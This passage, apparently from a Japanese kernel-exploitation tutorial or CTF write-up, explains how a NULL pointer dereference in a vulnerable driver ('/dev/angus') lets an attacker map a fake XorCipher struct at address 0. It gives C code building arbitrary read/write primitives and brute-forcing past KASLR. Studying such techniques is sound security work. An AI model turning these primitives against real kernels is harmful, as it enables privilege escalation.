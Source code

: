 ## 権限昇格
`XorCipher`構造体をNULLポインタ参照してしまうので、攻撃者はアドレス0に偽の`XorCipher`構造体を用意します。
```c
typedef struct {
  char *key;
  char *data;
  size_t keylen;
  size_t datalen;
} XorCipher;
```
`data`ポインタと`datalen`を操作すれば、`CMD_GETDATA`で任意アドレスからデータを読み出せることが分かります。また、`data`ポインタと`datalen`、さらに`key`と`keylen`を適切に設定すれば、任意アドレスのデータを書き換えられます。
したがって、今回の脆弱性ではAAR/AAWという非常に強力なprimitiveが作れます。`CMD_GETDATA`では`copy_to_user`を使ってカーネル空間からユーザー空間にデータを転送します。
```c
if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
```
`copy_to_user`や`copy_from_user`といった関数は、誤ってマップされていないアドレスが渡されてもクラッシュせずに失敗するように設計されています。したがって、KASLRが有効な場合でも、適当にアドレスを決めて総当り的にデータを読んでいけば、いつか`copy_to_user`が成功します。

何はともあれAAR/AAWを作って、ユーザー空間のデータを読み書きすることで実装を確認しましょう。
```c
XorCipher *nullptr = NULL;

void AAR(char *dst, char *src, size_t len) {
  nullptr->data = src;
  nullptr->datalen = len;
  angus_getdata(dst, len);
}

void AAW(char *dst, char *src, size_t len) {
  // xorでAAWするので、元データを先に読んでおく
  char *tmp = (char*)malloc(len);
  if (tmp == NULL) fatal("malloc");
  AAR(tmp, dst, len);

  // xorすると書き込みたいデータになるように調整
  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  // 書き込み
  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}

int main() {
  fd = open("/dev/angus", O_RDWR);
  if (fd == -1) fatal("/dev/angus");

  // 偽のXorCipher構造体をNULLポインタに用意
  if (mmap(0, 0x1000, PROT_READ|PROT_WRITE,
           MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE|MAP_POPULATE,
           -1, 0) != NULL)
    fatal("mmap");

  // AAR/AAWのテスト
  char buf[0x10];
  AAR(buf, "Hello, World!", 13);
  printf("AAR: %s\n", buf);
```

[^1]: 当然`lseek`のハンドラもカーネルモジュール側が正しく実装する必要があります。